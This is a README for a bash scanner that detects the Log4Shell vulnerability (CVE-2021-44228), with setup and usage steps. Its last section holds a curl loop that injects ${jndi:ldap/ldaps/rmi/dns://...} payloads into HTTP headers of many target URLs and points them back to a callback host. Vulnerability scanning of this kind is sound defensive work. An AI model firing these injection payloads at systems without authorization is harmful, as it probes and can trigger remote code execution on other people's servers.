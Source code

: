 # log4jScanner

 log4jScanner.sh is a BASH script to validate the vulnerability (CVE-2021-44228) of a given IP/URL.
 
 The script perfectly validates the existence of the vulnerability based on the *RETURN* traffic of 4 protocols ldap | ldaps | rmi | dns 
 
 Thus, the testing methedology is completely safe and non-invasive. 
 
 ## Attack Vector:
 
 First and foremost, I suggest reviewing the provided pcapng file in wireshark for a thorough understanding of the attack vector. 
 The pcapng file captured complete start-to-end traffic of a perfectly compromised target in lab environment.
 
 For your reference, 192.168.190.100 and 1389 are the attacker's IP/Port, and 192.168.190.44:8080 are the victim's (Tomcat) IP/Port. 
 
 
## Requirements

If you prefer to test the internet facing target, then this test requires to be executed on a DMZ host,
on which you can open desired port for scanner's return traffic from the target. I have used and tested on free tier AWS EC2 Kali Linux instance. 

If you prefer to test the intranet facing target, then you simply make sure that Scanner-Return-Traffic-Port is reachable to the target. 

[Example: ./log4jScanner.sh 192.168.1.100:443 1389]

## Prepare the Kali instance with the below mentioned packages.

```bash
 apt install iptables iptables-persistence rsyslog curl vim
 
 systemctl restart rsyslog
```
## Download the script

```bash
git clone https://github.com/defcon250/log4jScanner
```

## Usage

```bash
  cd ./log4jScanner
  ./log4jScanner.sh  <Target-IP>:<Target-Port>  <Scanner-Return-Traffic-Port>  
  
  [Example: ./log4jScanner.sh 192.168.1.100:443 1389]
```
## To automate testing of multiple IP/URLs, please feel free to modify the script accordingly.

```bash
Hint: While refering the log4jScanner.sh, consider modifying the script to include the following for-loop.

for i in $(cat /tmp/urls.txt); do timeout 2 curl -ksqL http://"$i" -H "x-api-version: \${jndi:ldap://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:ldaps://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}" 1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:ldaps://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1>  /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:dns://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}"  1> /dev/null; timeout 2 curl -ksqL http://"$i" -H "user-agent: \${jndi:rmi://"$DEFAULT_INTERFACE":"$BADPORT"/abcd}" 1> /dev/null; done
````


